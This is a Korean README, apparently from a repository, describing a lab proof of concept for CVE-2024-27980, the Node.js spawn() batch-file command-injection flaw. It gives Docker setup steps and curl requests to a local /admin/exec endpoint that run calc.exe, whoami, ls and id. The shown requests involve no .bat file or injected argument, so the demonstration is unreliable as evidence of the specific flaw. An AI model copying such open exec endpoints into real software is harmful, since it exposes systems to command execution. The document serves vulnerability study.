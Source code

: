 # CVE-2024-27980 - Improper handling of batch file extensions in Node.js child_process.spawn()

## 요약
- **CVE 번호**: CVE-2024-27980
- **취약점 설명**: Node.js의 `child_process.spawn()` 및 `spawnSync()` 함수가 Windows 환경에서 배치 파일(.bat) 확장자 처리를 부적절하게 하여, `shell: false` 옵션을 사용했음에도 명령어 주입이 발생할 수 있다.
- **영향 받는 버전**: Node.js 18.x, 20.x, 22.x 릴리스 라인 (Windows 환경)
- **취약점 유형**: Command Injection
- **PoC 방식**: `shell: false` 설정 상태에서도 명령어 실행이 가능함을 확인


## 환경 구성 및 실행
- 테스트 서버는 Node.js 20 버전을 사용하여 Docker를 구성한다.
- `http://localhost:3000/admin/exec` 에 POST 요청을 보내면서 명령어를 실행한다.

### 환경 요구사항
- Windows OS (Docker Desktop 설치)
- Node.js 설치 (20.x 버전)
- Git Bash, PowerShell 사용

아래는 docker 환경 구축을 하는 방법이며, 사진은 해당 결과물이다.
```
docker-compose build --no-cache
```
![image](https://github.com/user-attachments/assets/b1266083-393e-4671-af16-788d5efdf557)
<br>
```
docker-compose up -d
```
![image](https://github.com/user-attachments/assets/587fdcf7-c68c-48d6-90f1-1e01fe0c7cb8)

## 결과
### [윈도우 환경] 
- Docker 컨테이너는 리눅스 기반으로 동작하기 때문에, Windows 전용 프로그램(calc.exe 등)은 실행되지 않는다.
- 하지만, 실제 windows 환경에서는 관련 명령어 시도가 가능한 것을 확인할 수 있다. (node 설치 필요) 아래 과정을 통해 프로그램 실행이 가능한 것을 확인할 수 있다. (calc.exe 출력)

1. ../src 경로에서 `node app.js` 실행
2. 아래 명령어 입력
```
curl -X POST http://localhost:3001/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd": "calc.exe", "args": []}'
```
실제 계산기 프로그램이 자동으로 실행되는 것을 확인할 수 있다.

### [Docker 환경]
리눅스 기본 명령어인 `ls`, `id`, `whoami` 등을 curl 명령어로 요청을 보내며 PoC를 진행한다.
아래는 실행 명령어와 해당 명령어를 입력했을 때 출력된 결과이다.

1. **whoami** 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"whoami","args":[]}'
```
![image](https://github.com/user-attachments/assets/f2fc8d40-396c-4648-bcec-312ee34fa681)

2. **ls** 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d "{\"cmd\":\"ls\",\"args\":[\"-l\"]}"
```
![image](https://github.com/user-attachments/assets/b4b75a31-ea85-4173-b0e4-8db37d9ba988)

3. **id** 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"id","args":[]}'
```
![image](https://github.com/user-attachments/assets/61b84ab2-60e3-40c1-81c1-e5ceec0f2820)

위 curl 명령어를 통해 실행한 결과는, 터미널에서 직접 해당 명령어들을 입력했을 때 출력되는 결과와 동일함을 확인할 수 있다.

## 정리
- CVE-2024-27980은 Windows 환경에서 child_process.spawn() 및 spawnSync()가 확장자 자동 처리 과정에서 명령어 주입을 방지하지 못해 발생하는 취약점이다.
- `shell: false` 설정만으로는 Windows 환경에서 완벽한 명령어 검증이 되지 않으며, 사용자가 입력한 명령어를 통해 프로그램 실행이 가능해질 수 있다.
- PoC 결과, Docker 리눅스 컨테이너에서는 리눅스 기본 명령어 실행이 가능했으며, Windows 로컬 환경에서는 calc.exe 실행을 통해 프로그램 실행이 가능함을 확인하였다.
- 해당 취약점을 방지하기 위해 Node.js를 최신 버전(v20.15.1 이상)으로 업데이트하고, 사용자 입력값에 대한 엄격한 검증이 필요하다

---
## 참고
https://nodejs.org/en/blog/vulnerability/july-2024-security-releases
https://nvd.nist.gov/vuln/detail/CVE-2024-27980
https://knvd.krcert.or.kr/detailSecNo.do?IDX=6235
